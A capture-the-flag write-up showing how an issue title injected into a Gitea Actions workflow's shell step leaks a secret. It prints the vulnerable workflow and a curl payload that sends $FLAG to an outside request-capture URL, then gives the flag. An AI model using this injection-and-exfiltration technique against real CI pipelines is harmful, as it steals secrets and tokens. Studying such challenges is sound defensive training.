


## Writeup
By Nikolas Papaioannou

We start by entering a the VCS/CICD platform Gitea by creating a new user.

First thing we should do is check if there are any repositories avaliable to us. Which there are:



`TJOHO` is basically empty, but `workflow_testing` has a action, which implies that something may run there.

The action file looks like this:

```yaml
name: Gitea Actions Test
run-name: ${{ github.actor }} is testing out Gitea Actions 🚀
on:
  issues:
    types:
      - opened

jobs:
  label_issue:
    runs-on: alpine
    steps:
      - env:
          FLAG: ${{ secrets.FLAG }}
          SLACK_TOKEN: ${{ secrets.SLACK_TOKEN }}
          ISSUE_URL: ${{ github.event.issue.html_url }}
        run: |
          echo "Title: ${{ github.event.issue.title }}, Url: $ISSUE_URL"
          echo "@todo: Add slack integration and post summarized issue updates there"          

```

The run section is running a shell script, there we can control the variable `${{ github.event.issue.title }}` via the title of the issue.

As this is a secrets variable its automatically stripped from the log output, so we need to do something tricky to try to leak it.

First tought for me was using a service like RequestBin, that allows me to create a URL that I can send a request to, and then see the request in the RequestBin UI.

So settings the following title on a new issue:

`curl -d "$FLAG" -H "Content-Type: application/json"   https://eonzxrz6va4blq1.m.pipedream.net`





**Flag:** `EPT{53CUr3_Y0Ur_4C710N5?}`